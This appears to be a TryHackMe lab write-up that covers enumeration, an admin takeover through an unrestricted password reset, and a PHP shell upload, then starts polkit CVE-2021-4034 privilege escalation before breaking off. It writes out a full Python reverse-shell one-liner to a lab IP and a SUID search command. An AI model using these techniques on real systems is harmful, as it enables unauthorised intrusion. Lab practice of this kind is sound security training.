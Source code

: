 * * *
  ### LAB
  ### PLATFORM: THM
* * *

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3451f8f0-cdf3-4707-b8c8-5ce5585cd963)


### ENUMERATION

- Rustscan's result

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cdc8bece-c865-440e-9ed9-96f987bcc450)

- Ffuf's result
 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6338d69a-1020-48ed-9942-49549558e7dd)

- v2 reveals an admin page,we can also register a user

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/059f5f25-684b-4a4a-b791-481f828383ff)

- Profile.php reveals the admin username

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8545b9fe-3838-48f6-90da-b63f54b69ea4)

- The password reset functionality is vulnerable becuase allows us to reset an account's password without any restrictions e,g sending
a magic link to the email
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2759ec91-fda5-416c-8d96-6b3ec77ef82b)

- Intercept the request with burpsuite and change the username to the admin's name

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/be0a74d8-0fe2-42f7-846f-de43e010888d)

### GETTING SHELL

- One of the features of the admin account is that it allows the admin to upload a profile image,we can abuse that feature to get a shell

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/09585a99-2045-4c27-bda2-b53fc889ff9f)

- I was able to upload a shell php,the site has no file upload restrictions

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2b3b466b-2771-4304-992e-35c7b955167d)

- After viewing the source code of "v2/profile.php" ,I discovered that it has a special directory for storing uploaded pictures

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/57f2fb70-6694-40c2-8c59-41139d1d8d77)

- We can execute shell commands now

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/63f5c7d8-31da-4e80-aef5-255eb8854377)

### INITIAL FOOTHOLD

- Shell with `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.158.229",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9e0cd881-585b-419f-bef9-1e54f28965e6)

### PRIVESC WITH POLKIT AND PKEXEC 0.105.0

- POLKIT has an exploit as stated in `cve-2021-4034`.Polkit (formerly PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. It provides an organized way for non-privileged processes to communicate with privileged processes. It is also possible to use polkit to execute commands with elevated privileges using the command pkexec followed by the command intended to be executed (with root permission).

     `find / -perm -u=s -type f 2</dev/null`
  ![Uploading image.png…]()


